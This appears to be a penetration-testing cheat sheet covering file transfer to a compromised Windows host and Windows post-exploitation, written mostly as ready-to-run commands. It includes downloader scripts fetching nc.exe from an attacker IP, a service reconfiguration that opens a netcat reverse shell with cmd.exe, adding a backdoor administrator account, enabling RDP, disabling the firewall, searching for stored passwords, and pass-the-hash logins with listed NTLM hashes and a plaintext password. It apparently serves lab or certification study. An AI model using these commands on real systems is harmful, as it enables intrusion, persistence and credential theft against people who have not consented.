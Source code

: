 
## File Transfer
Below methos can be used to transfer files..

## Transferring Files to Windows	## 
-**Running Webserver on Kali**
```
python -m SimpleHTTPServer 8080	
```
-**Transfer with Netcat**
```
//Kali
nc -lvp 1234 > zeroday.txt
//Win 
nc 192.168.0.114 1234 < zero-day.txt
```
ref: https://blog.ropnop.com/transferring-files-from-kali-to-windows/

-**TFTP** <br />
If target has tftp running, you can easily check it by typing tftp on windows cmd. 
Starting tftp service : 
```
atftpd --daemon --port 69 /tftp 
/etc/init.d/atftpd restart
cd /srv/tftp
cp /var/www/html/nc.exe .
```

```
//transfer nc.exe  
tftp -i 10.11.0.42 GET nc.exe
//PUT
tftp -i 10.11.0.42 PUT test.txt
```

-**FTP** <br />
Setup FTP service by downloading pyftp library 
```
apt-get install python-pyftpdlib  
python -m pyftpdlib -p 21 -w
```
You can also automate ftp process by creating ftp.txt
```
echo open 10.11.0.42>ftp.txt
echo anonymous>>ftp.txt
echo password>>ftp.txt
echo binary>>ftp.txt
echo get nc.exe>>ftp.txt 
echo bye>>ftp.txt
ftp -s:ftp.txt
```

cf.	Setting FTP
```sh
groupadd ftpgroup 
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome 
pure-pw mkdb 
cd /etc/pure-ftpd/auth/ 
ln -s ../conf/PureDB 60pdb 
mkdir -p /ftphome 
chown -R ftpuser:ftpgroup /ftphome/ 
/etc/init.d/pure-ftpd restart
```

```
root@kali:~# chmod 755 setup-ftp 
root@kali:~# ./setup-ftp 
Password: 
Enter it again: 
Restarting ftp server
```

-**Creating VBscript** <br />
wget.vbs * VBScript  (eg. in Windows XP, 2003) 
```sh

echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

```
**Usgage**  : ```cscript wget.vbs http://10.11.0.42/wget.exe wget.exe```


-**PowerShell-** (in Windows 7, 2008, and above) 	 <br />
wget.ps1
```sh
echo $storageDir = $pwd > wget.ps1 
echo $webclient = New-Object System.Net.WebClient >>wget.ps1 
echo $url = "http://10.11.0.42/nc.exe" >>wget.ps1 
echo $file = "nc.exe" >>wget.ps1 
echo $webclient.DownloadFile($url,$file) >>wget.ps1 
```
**Usgage**  : ```powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive NoProfile -File wget.ps1```


# Post Exploit - Windows	
 
- **Checking OS Details** 
```
systeminfo 
findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

- **64 or 86 Checking** 
```
wmic os get osarchitecture
```
or check "System Files" like belows 
```
//C:\Windows\System32\license.rtf for Windows 7. 
//C:\Windows\System32\eula.txt for Windows XP
cd "C:/WINDOWS/inf/layout.inf" && cat layout.inf |grep productname
```

System32        C:\Windows\System32        Windows System folder (system directory) for 64-bit files<br />
SysWOW64        C:\Windows\SysWOW64        Windows System folder (system directory) for 32-bit files<br />

ref : http://www.samlogic.net/articles/32-64-bit-windows-folder-x86-syswow64.htm<br />

- **Find Sensitive Files** <br />
Find password	
```
findstr /si password *.xml *.ini *.txt
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /spin ""password"" *.*"
```

- **Adding Local User** <br />
Net commad
```
net user susu gothacked /add
net localgroup Administrators susu /add
```
If target has RDP service running, you may able to RDP into target; ```rdesktop -u susu -p gothacked 10.11.1.31```

- **Enable RDP service on Target** <br />
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
NET LOCALGROUP "Remote Desktop Users" robert /ADD
NET LOCALGROUP "Remote Desktop Users" susu /ADD
```
If target has RDP service running, you may able to RDP into target; ```rdesktop -u susu -p gothacked 10.11.1.31```

- **AccessChck** <br />

accesschk.exe <br />
*ref Guide* : http://www.fuzzysecurity.com/tutorials/16.html	<br />
Old version : https://xorcat.net/assets/other/Accesschk.zip	<br />
https://xor.cat/2017/09/05/sysinternals-accesschk-accepteula/	<br />
Usage :``` accesschk.exe -qwsu "Users"" *``` 

- **SC Config** <br />
```sh
sc config upnphost binpath= "C:\Inetpub\Scripts\nc.exe -nv 10.11.0.45 7878 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc config ssdpsrv start= demand
``` 


- **Pass The Hash** <br />
ref 
https://xapax.gitbooks.io/security/content/pass_the_hash_-_reusing_hashes.html?q=
https://www.kali.org/penetration-testing/passing-hash-remote-desktop/
```sh
1. put the hash in the environment variable with export command
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:0598acedc0122622ad85afc9e66d329e
2. authenticate SMB's cred
pth-winexe -U Administrator% //10.11.1.220 cmd
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:B74242F37E47371AFF835A6EBCAC4FFE
pth-winexe -U Administrator% //10.11.1.49 cmd
```

1. RDP with Hash value <br />
```sh
xfreerdp /u:"kevin" /d:master.thinc.local /pth:aad3b435b51404eeaad3b435b51404ee:aef3d57f355a02297fc386630a01449e /v:10.11.1.220
password : !QW@3er45t

xfreerdp /u:"administrator" /d:master.thinc.local /pth:aad3b435b51404eeaad3b435b51404ee:0598acedc0122622ad85afc9e66d329e /v:10.11.1.220
password : (gotta set the password after passing the smb hash)
```

2. SMB export hash value<br />
```sh
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:0598acedc0122622ad85afc9e66d329e
pth-winexe -U Administrator% //10.11.1.220 cmd
```

- **Disable Firewall** <br />
Disable Windows firewall on newer versions:  
```netSh Advfirewall set allprofiles state off```
Disable windows firewall on older windows: 
```netsh firewall set opmode disable```


- **After Exploit(SysAdmin)** <br />
Dump pwd : fgdump.exe 

**Pass The Hash** <br />
NTLM Decrypt	
```john ./pwlist.txt --format=nt --wordlist=/pentest/passwords/wordlists/rockyou.txt```
ref : http://www.madhur.co.in/blog/2011/09/18/crackresetwindows.html && https://hashkiller.co.uk/ntlm-decrypter.aspx

PsExec : https://pinkysplanet.net/escalating-privileges-in-windows-with-psexec-and-netcat/
